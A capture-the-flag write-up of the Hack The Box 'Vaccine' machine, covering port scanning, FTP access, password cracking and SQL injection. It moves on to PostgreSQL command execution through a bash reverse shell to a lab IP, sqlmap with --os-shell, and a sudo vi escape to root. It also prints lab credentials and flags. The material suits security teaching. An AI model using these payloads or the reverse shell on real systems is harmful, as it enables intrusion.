


# Starting Point - Vaccine

## Enumeration

```
rustscan 10.10.10.46 -- -sC -sV -o port_scan

PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: MegaCorp Login
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```


### Examine Port 80 - Apache Server



Seems to be a login website. Using the credentials `admin:MEGACORP_4dm1n!!` of the previous challenge fails. So this is a dead end for now. 

Let's try to scan the server for other directories. For this, we can use a tool like `dirb`, `dirbuster` or `gobuster`

```
gobuster dir -u "http://10.10.10.46" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

While this is running, we can check out the open FTP port.


### Examine Port 21 - FTP

In the previous challenge, we found some FTP credentials in the Filezilla configs that belonged to root. 

```
<User>ftpuser</User>
<Pass>mc@F1l3ZilL4</Pass>
```


And indeed! We can login.

In there, we find a file called `backup.zip`. 
```
-rw-r--r--    1 0        0            2533 Feb 03  2020 backup.zip
```
Using the `GET` command we can download it to our local machine. Unfortunately, the zip file is password protected.

However, we can try to bruteforce the password with `john`.
Therefore, we first have to use the tool `zip2john`. It converts the zip file into a understandable format for john.

```
backup.zip:$pkzip2$2*2*1*0*8*24*3a41*5722*543fb.....
```

Afterwards, we can use `john` to crack the hash.

```
$ john backup_hash -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
741852963        (backup.zip)
1g 0:00:00:00 DONE (2021-01-02 12:26) 50.00g/s 44800p/s 44800c/s 44800C/s michelle1..ilovegod
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Success! The password for the zip is `741852963`.

Unzipping the file, we receive two files:

1) index.php
2) style.css

Opening the `index.php` file we see following:
```html
</head>
  <h1 align=center>MegaCorp Login</h1>
<body>
<!-- partial:index.partial.html -->
<body class="align">
```
That seems familiar, right? That's the login page on Port 80.
Let's further investigate the file.

```php
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>
```
The php code reveals the valid username (`admin`) and the md5 hash of the password (`2cb42f8734ea607eefed3b70af13bbd3`). So all that's left, is to crack the md5 hash. 

For such a task I usually use [crackstation](https://crackstation.net/).


There we have it! The password is `qwerty789`

## Further Examine Port 80 - Login Page

Using the credentials `admin:qwerty789` we can successfully login and get access to the MegaCorp Car Catalogue (/dashboard.php).



The dashboard contains information about several Cars. I'm assuming they are loaded from a database. Furthermore, the website only has a SEARCH functionality. Sourcecode, cookies etc did not reveal any interesting information. So what can you do with that SEARCH field?

Searching for "ELIXIR" (one of the car names), changes the dashboard content, so that only Elixir is shown. If we search for "SPORTS" (one of the car types), the page stays empty.

So my guess is that, once we hit that SEARCH button, an SQL query is sent to the database, to retrieve all results with the attribute `carname/car/name` set to our value. From an attacker's perspective, this can be vulnerable to SQL Injection if not implemented carefully. So let's try that.


By inserting a single `'`character into the search field and pressing enter, we get following error message: `ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%'%' ^`. So here we have the proof, that the search field is indeed vulnerable to SQL injection. Let's gain information about the database by following these steps:

1) Find out how many columns are in the `cars` table.
  
    By injecting `' ORDER BY 1--`, and increasing the number until we receive an error, tells us how many columns exist. In our case, we get the error with `' ORDER BY 6--`. Therefore, we know the `cars` table has 5 columns.

2) Gain information about the column types

    Now that we know how many columns there are, we can extract further information with the [SQL Injection UNION attack](https://portswigger.net/web-security/sql-injection/union-attacks). 

    - `' UNION SELECT 'a', NULL, NULL, NULL, NULL --` : ERROR
    - `' UNION SELECT NULL, 'a', NULL, NULL, NULL --` : VALID
    - `' UNION SELECT NULL, NULL, 'a', NULL, NULL --` : VALID
    - `' UNION SELECT NULL, NULL, NULL, 'a', NULL --` : VALID
    - `' UNION SELECT NULL, NULL, NULL, NULL, 'a' --` : VALID

    From this, we know that we can extract valuable information in form of strings when modifying index 1-4 of the UNION query.

3) Extract valuable information (table names etc)

    Using the [Portswigger SQLI Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet), we can retrieve a lot of information about the database system:
    
    - Version: `' UNION SELECT NULL, NULL, NULL , NULL, VERSION() --`: PostgreSQL 11.5 (Ubuntu 11.5-1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.1.0-9ubuntu2) 9.1.0, 64-bit
    - Table names: `' UNION SELECT NULL, table_schema, table_name, NULL, NULL FROM information_schema.tables --`

4) Executing Arbitrary Commands via SQL Injection in PostgreSQL

    According to [this article](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5), all versions of PostgreSQL from 9.3, are vulnerable to this kind of arbitrary command execution (CVE-2019-9193)
    ```
    '; CREATE TABLE cmd_exec(cmd_output text); --

    '; COPY cmd_exec FROM PROGRAM 'bash -c ''bash -i >& /dev/tcp/10.10.14.55/4444 0>&1'''; -- 

    (if output is needed)
    '; SELECT * FROM cmd_exec; -- (make sure the column number is correct)
    ```

5) PROFIT

    

    We now have access to the server!

Btw, this all could have also been done automatically by using `sqlmap`, but for the sake of learning: keep doing it manually!

```
$ sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=vmnafl0uct1r97s1k5bkpoiopg" --dump-all --tamper=space2comment

and 

$ sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=vmnafl0uct1r97s1k5bkpoiopg" --os-shell
```

## Exploitation

In the home directory of our current user (/var/lib/postgresql), we can find a file called `user.txt`. It contains the user flag for the machine: `139d3e5c3db18073d250ce0dccc43997`.
Furthermore, the directory also contains the the `.ssh` directory, in which the private and public SSH key of the user are located. We can use them to stablize our current connection.

```
$ chmod 600 ssh_key (private one)

$ ssh -i postgres_sshkey postgres@10.10.10.46
```

In the `/var/www/html` directory, we can also find the source code for the `dashboard.php`. Let's take a look at the vulnerable SQL query.

``` php
 $q = "Select * from cars where name ilike '%". $_REQUEST["search"] ."%'";
```

So it's basically just appending our user input to the SQL query, which is, as seen, a very bad idea. There must be some security measurements in place, such as user-input validation.

Furthermore, we can also see the credentials of our current user `postgres`:

```php
$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");   
```

Having that, we can now check the sudoers list to see if our current user can execute a binary with sudo privileges:

```
postgres@vaccine:/var/www/html$ sudo -l
[sudo] password for postgres: 
Matching Defaults entries for postgres on vaccine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

Indeed! We can execute `/bin/vi` on a specific file with sudo privileges. However, we can also start a shell from within `vi`and escape this restriction.

We execute:
```
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```
Once, we are in the file editor, we press ESC and type:

```
:!/bin/sh 

or

:shell
```

Now we have full root access:

```
root@vaccine:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root)
```

The root.txt is: `dd6e058e814260bc70e9bbdef2715849`
